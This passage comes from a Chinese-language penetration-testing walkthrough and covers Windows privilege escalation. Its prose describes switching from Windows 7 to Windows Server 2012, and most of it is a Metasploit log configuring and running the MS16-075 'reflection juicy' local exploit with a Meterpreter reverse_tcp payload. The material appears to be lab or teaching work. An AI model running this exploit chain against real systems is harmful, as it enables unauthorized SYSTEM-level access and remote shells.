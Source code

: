 #### 4.5.3.4. 执行提权

注意这里我之前的操作都是使用Windows7来提权的，不过演示过程中，发现无法提权，后来到这里的时候切换为Windows2012了，这里需要注意，也间接性表面，提权的困难。

这里选择上面yes的模块，并进行设置模块，然后设置相关参数，这里仔细看，首先设置session，这个就是之前msf上线的编号，然后后面可以看到我将端口设置为6666，其实这里，有时候会出现命令执行成功了，但是并不能反弹会话窗口，那么这里我就重新设置了一个监听，来监听返回的端口。

```
msf6 post(multi/recon/local_exploit_suggester)> use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > options 

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting                         Required  Description
   ----     ---------------                         --------  -----------
   CLSID    {4991d34b-80a1-4291-83b6-3328366b9097}  yes       Set CLSID value of the DCOM to trigger
   SESSION                                          yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  none             yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.10.20    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms16_075_reflection_juicy) > set session 3
session => 3
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set lport 6666
lport => 6666
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[-] Handler failed to bind to 192.168.10.20:6666:-  -
[-] Handler failed to bind to 0.0.0.0:6666:-  -
[+] Target appears to be vulnerable (Windows 2012 R2 (6.3 Build 9600).)
[*] Launching notepad to host the exploit...
[+] Process 1404 launched.
[*] Reflectively injecting the exploit DLL into 1404...
[*] Injecting exploit into 1404...
[*] Exploit injected. Injecting exploit configuration into 1404...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms16_075_reflection_juicy) > 
```
